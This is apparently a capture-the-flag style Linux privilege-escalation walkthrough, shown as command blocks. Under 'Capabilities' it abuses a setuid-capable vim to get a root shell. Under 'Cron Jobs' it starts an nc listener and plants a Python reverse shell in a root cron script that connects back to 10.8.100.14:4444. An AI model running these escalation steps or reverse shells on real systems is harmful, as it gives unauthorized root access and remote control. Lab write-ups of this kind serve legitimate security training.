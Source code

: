 

## Capabilities

```bash
$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```

```bash
`./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'`
```

```bash
# id
uid=0(root) gid=1001(karen) groups=1001(karen)
```


## Cron Jobs

```bash
$ cat /etc/crontab
..
..
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py

```

```bash
joshua@kaligra:~$ nc -nlvp 4444
listening on [any] 4444 ...
```

```bash
$ cat > /tmp/test.py
#!/usr/bin/python3

import socket,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.100.14",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

pty.spawn("/bin/sh")
$ chmod +x /tmp/test.py
```
